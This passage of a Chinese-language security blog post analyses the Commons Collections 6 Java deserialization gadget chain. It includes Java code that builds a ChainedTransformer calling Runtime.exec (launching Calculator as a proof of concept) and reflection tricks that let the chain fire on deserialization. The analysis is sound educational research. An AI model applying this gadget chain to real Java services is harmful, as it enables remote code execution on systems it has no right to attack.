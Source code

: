 通过调用 `LazyMap.decorate` 方法，将恶意的 `ChainedTransformer` 赋值给 `LazyMap#factory`，当调用 `LazyMap#get(Object key)` 方法，则会触发恶意代码的执行。（与 CommonsCollections 1、CommonsCollections 5 的 sink 点相同）

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```java<br>public static void main(String[] args) {<br>    Transformer[] transformers = new Transformer[] {<br>        new ConstantTransformer(Runtime.class),<br>        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>        new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>    };<br>    Transformer transformerChain = new ChainedTransformer(transformers);<br>    Map innerMap = new HashMap();<br>    Map outerMap = LazyMap.decorate(innerMap, transformerChain);<br>  	outerMap.get("poc");<br>}<br>``` |

CommonsCollections 6 gadget 作者找到了 `TiedMapEntry` 类，其中在 `TiedMapEntry#getValue()` 方法中调用了 `this.map.get(this.key)` 方法。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>public Object getValue() {<br>    return this.map.get(this.key);<br>}<br>``` |

调用 `TiedMapEntry(Map map, Object key)` 构造方法，可以为 `TiedMapEntry#map` 赋值

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291141935.png-water_print](assets/1699411715-7e2870adb6e8174583d9a1540e658f3f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291141935.png-water_print")

在 `TiedMapEntry` 中的 `equals(Object obj)`、`hashCode()`、`toString()` 方法中都调用了 `TiedMapEntry#getValue()` 方法。这里作者选择调用 `TiedMapEntry#hashCode()` 方法。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291143784.png-water_print](assets/1699411715-105860057a8cca1deadd3c357d4ce0e3.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291143784.png-water_print")

接下来的思路就和 DNSURL 链类似，通过 HashMap 入口进行反序列化。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```java<br>TiedMapEntry te = new TiedMapEntry(lazyMap, "Geekby");<br>te.hashCode();<br>``` |

但是，在构造 HashMap 时，调用 put 方法，执行 hashcode 方法，会直接执行后续的命令执行操作，情况和 DNSURL 链相似，因此，需要通过反射来进行一些设置。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```java<br>Map innerMap = new HashMap();<br>Map lazyMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));<br>TiedMapEntry te = new TiedMapEntry(lazyMap, "Geekby");<br><br>HashMap<Object, Object> ht =  new HashMap<>();<br>ht.put(te, null);<br>// ht put 后，调用 TiedMapEntry#hashCode 中 getValue()<br>// 调用 lazyMap#get 方法<br>// 判断 innerMap 中是否含有 "Geekby" 这个 key<br>// 没有，进入 if 逻辑，调用 transform，向 innerMap 中添加对应的 Key:Value<br>// 然后再删除这个键值对，便于后续反序列化再次进入 if 逻辑。<br>innerMap.remove("Geekby");<br>// 此外将 LazyMap#factory 属性还原为 transformerChain （防止构造时就执行）<br>Class c = LazyMap.class;<br>Field factoryField = c.getDeclaredField("factory");<br>factoryField.setAccessible(true);<br>factoryField.set(lazyMap, transformerChain);<br>``` |

## [](#4-commonscollections-24-gadget-%E5%88%86%E6%9E%90)4 CommonsCollections 2&&4 Gadget 分析
